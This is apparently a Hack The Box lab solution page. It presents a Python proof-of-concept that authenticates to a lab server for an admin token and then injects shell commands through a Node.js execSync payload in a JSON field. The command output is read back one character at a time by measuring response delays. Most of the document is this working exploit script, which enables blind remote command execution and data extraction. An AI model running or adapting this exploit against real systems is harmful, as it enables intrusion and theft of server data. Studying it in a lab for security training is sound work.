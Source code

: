 Students need to write a proof-of-concept script to perform a command injection attack against the server. The script must first authenticate with the server to obtain an admin token, then enter an infinite loop where it takes user input for a command to inject. Performing blind exfiltration, the script needs to gradually build and send payloads to the server character by character, trying to determine the correct character one at a time by measuring the server's response time. When it successfully identifies a character, it appends it to the output, and the loop continues to guess the next character until the command is complete, printing the flag.

Students need to use the following script to accomplish these tasks:

Code: python

```python
import requests
import json

# set server and port
server = "STMIP"
port = STMPO
url = f"http://{server}:{port}"
auth_endpoint = f"{url}/api/auth/authenticate"
qr_endpoint = f"{url}/api/service/generate"

# set headers and data for authentication
headers = {"Content-Type": "application/json"}
data = {"email": "test@hackthebox.com"}

# Get admin token
response = requests.post(auth_endpoint, headers=headers, data=json.dumps(data))
token = response.json()['token']

while True:
    # Get input command from user input
    user_input = input("\n> ")
    user_input = user_input.replace("'", '"')
    i = 0

    while True:
        i += 1
        # loop over entire printable ASCII
        for j in range(32, 127):
            # inject command into payload
            payload = {
                "text": "'}) + require('child_process').execSync('" + user_input + " | head -c " + str(i) + " | tail -c 1 | { read c; if [ \"$c\" = \"" + chr(j) + "\" ]; then sleep 2; fi; }')//"}

            # escape backslashes
            payload = json.dumps(payload).replace("\\\\", "\\\\\\")

            # send payload to server
            headers = {"Content-Type": "application/json",
                       "Authorization": f"Bearer {token}"}
            response = requests.post(
                qr_endpoint, headers=headers, data=payload)

            # check if response took 2 seconds or more
            if response.elapsed.total_seconds() >= 2:
                # print character and break loop
                print(chr(j), end="", flush=True)
                break
        else:
            # if no character was found, break loop
            break
```
